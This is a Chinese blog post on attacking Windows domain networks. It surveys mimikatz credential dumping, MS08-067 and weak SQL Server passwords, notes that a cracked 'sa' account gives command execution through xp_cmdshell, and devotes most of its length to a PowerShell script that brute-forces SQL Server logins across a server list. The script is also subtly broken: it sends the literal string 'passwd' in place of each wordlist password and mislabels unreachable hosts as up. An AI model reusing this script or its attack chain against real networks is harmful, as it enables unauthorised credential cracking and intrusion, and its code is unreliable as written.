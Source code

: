 ```yaml
---
layout: post
title: 内网域渗透-sqlserver爆破
author: alpha1e0
categories: 安全技术
tages: 安全技术
---
```


## 0x00内网渗透思路

内网渗透以取得域控账户为最终目的。常规思路：入侵某些服务器或主机，通过mimikatz倒域账户，查找敏感信息（如邮件）查找其他域账户等，反复迭代。

入侵服务器常规的思路：

1. 通过弱口令破解操作系统登录口令。
2. 通过MS08-067等漏洞渗透。
3. 通过web漏洞渗透web服务器。
4. 通过弱口令破解sqlserver登录口令。

## 通过弱口令破解sqlserver登录口令。
由于域环境中补丁统一部署、域账户复杂度限制，因此1和2两种思路很难实施。在实际操作中最有效的石sqlserver的弱口令和web服务器渗透。

本文介绍sqlserver弱口令破解。在获取sa账户后可以使用“exec xp_cmdshell”直接执行Administrator权限的命令（一般情况下sa账户和administrator账户权限相同）。

[这篇文章][1]介绍了通过LDAP获取内网sqlserver服务器的方法，可获取一个sqlserver列表。我写了一个脚本能够对这个列表进行暴力破解。

破解脚本如下：


{% highlight powershell %}
Write-Host "[-] Usage: brute.ps1 server.txt user.txt passwd.txt"

$serverFile = Get-content $args[0]
$userFile = Get-content $args[1]
$passwdFile = Get-content $args[2]

$serverList = @()
$result = @()

Write-Host "[-] Finding alive server--------------------------."
Foreach ($server in $serverFile) {
	$pos = $server.Indexof(".")
	$serverName = $server.Substring(0,$pos)
	if((Test-Connection -Cn $serverName -BufferSize 32 -Count 1 -ea 0 -quiet)) {
		Write-Host "[+] Up $server"
		$serverList += $server
	} else {
		Write-Host "[+] Up $server"
	}
}

Write-Host "[-] Begin burting--------------------------."
Foreach ($user in $userFile) {
	Foreach ($passwd in $passwdFile) {
		Foreach ($server in $serverList) {
			$con = New-Object System.Data.SqlClient.SqlConnection
			$con.ConnectionString = "Server=$server;Database=master;User ID='$user';Password='passwd';Connect Timeout=2;"
			Try {
				$con.Open()
				Write-Host "[+] Success: $server; $user; $passwd."
				$result += "$server; $user; $passwd"
			}
			Catch {
				Write-Host "[+] Failed: $server; $user; $passwd."
			}
		}
	}
}

$result | out-file "result.txt"
{% endhighlight %}

[1]: http://drops.wooyun.org/pentesting/2125